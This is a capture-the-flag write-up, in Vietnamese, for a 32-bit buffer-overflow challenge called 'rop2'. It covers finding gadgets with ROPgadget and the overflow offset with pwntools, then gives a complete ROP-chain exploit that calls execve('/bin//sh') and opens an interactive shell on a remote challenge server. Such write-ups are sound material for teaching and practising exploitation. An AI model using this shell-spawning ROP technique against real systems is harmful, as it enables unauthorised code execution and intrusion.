 Đầu tiên ta sẽ dung ROPGadget để tìm các gadget có trong file thực thi bằng cách chạy câu lệnh: 
```bash
ROPgadget --binary ./rop2 --rop --badbytes "0a"
```
![image](https://user-images.githubusercontent.com/64201705/140645741-f58a37de-dd3c-4950-b35c-8d6f03533974.png)

Nó sẽ tạo payload cho chúng ta luôn:

![image](https://user-images.githubusercontent.com/64201705/140645756-256d57d9-16a7-415b-9fa5-4de0def38229.png)

Nhiệm vụ của ta bây giờ là tìm padding sao cho việc ghi đè lên bộ nhớ thực hiện đúng:
- Ta sẽ thử với padding 50:
python2 -c "from pwn import *; print cyclic(50)" | ./rop2
- Chương trình sẽ bị crash và segmentation fault. Ta sẽ chạy lệnh dmesg | tail để lấy địa chỉ tại
vị trí rop2 bị crash và tìm padding bằng hàm cyclic_find(địa_chỉ_crash):

![image](https://user-images.githubusercontent.com/64201705/140645770-36640d58-f94a-4b0b-8d94-c0e7f42fb5a6.png)

Như vậy padding là 28 * a

Code thực thi:
```python
from pwn import *
from struct import pack

p = 'A' * (0x18 + 0x04) # 28

p += pack('<I', 0x0806ee6b) # pop edx ; ret
p += pack('<I', 0x080da060) # @ .data
p += pack('<I', 0x08056334) # pop eax ; pop edx ; pop ebx ; ret
p += '/bin'
p += pack('<I', 0x080da060) # padding without overwrite edx
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x08056e65) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806ee6b) # pop edx ; ret
p += pack('<I', 0x080da064) # @ .data + 4
p += pack('<I', 0x08056334) # pop eax ; pop edx ; pop ebx ; ret
p += '//sh'
p += pack('<I', 0x080da064) # padding without overwrite edx
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x08056e65) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806ee6b) # pop edx ; ret
p += pack('<I', 0x080da068) # @ .data + 8
p += pack('<I', 0x08056420) # xor eax, eax ; ret
p += pack('<I', 0x08056e65) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080481c9) # pop ebx ; ret
p += pack('<I', 0x080da060) # @ .data
p += pack('<I', 0x0806ee92) # pop ecx ; pop ebx ; ret
p += pack('<I', 0x080da068) # @ .data + 8
p += pack('<I', 0x080da060) # padding without overwrite ebx
p += pack('<I', 0x0806ee6b) # pop edx ; ret
p += pack('<I', 0x080da068) # @ .data + 8
p += pack('<I', 0x08056420) # xor eax, eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x08049563) # int 0x80

process = remote('45.122.249.68', 10006)
process.sendline(p)
process.interactive()
```

Flag:
![image](https://user-images.githubusercontent.com/64201705/140645819-817e5085-3eed-4f5d-ad86-db4c1cb57a82.png)
